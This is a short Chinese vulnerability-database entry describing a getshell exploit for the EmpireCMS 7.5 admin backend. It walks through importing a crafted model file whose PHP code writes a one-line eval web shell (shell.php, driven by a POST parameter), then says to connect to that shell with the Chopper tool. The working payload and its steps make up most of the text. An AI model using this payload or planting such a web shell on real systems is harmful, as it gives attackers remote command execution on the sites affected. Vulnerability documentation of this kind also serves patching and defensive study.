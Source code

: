 ```yaml
---
title: 'EmpireCMS V7.5后台getshell漏洞'
date: Wed, 09 Sep 2020 16:39:03 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EmpireCMS <= 7.5

### 漏洞验证

1.进入后台如下界面，点击导入系统模型 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/15996690221.png) 2.构造文件a.mod,内容如下

```
<?php file_put_contents("shell.php","<?php @eval(\$_POST[cmd]);?>");?>
```

3.上传文件a.mod ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/15996691631.png) 4.查看文件已经有shell.php了，菜刀连接即可 ![](https://www.bylibrary.cn/wp-content/uploads/2020/09/YZ2MSEV1TXX7J08ZXCA01.png)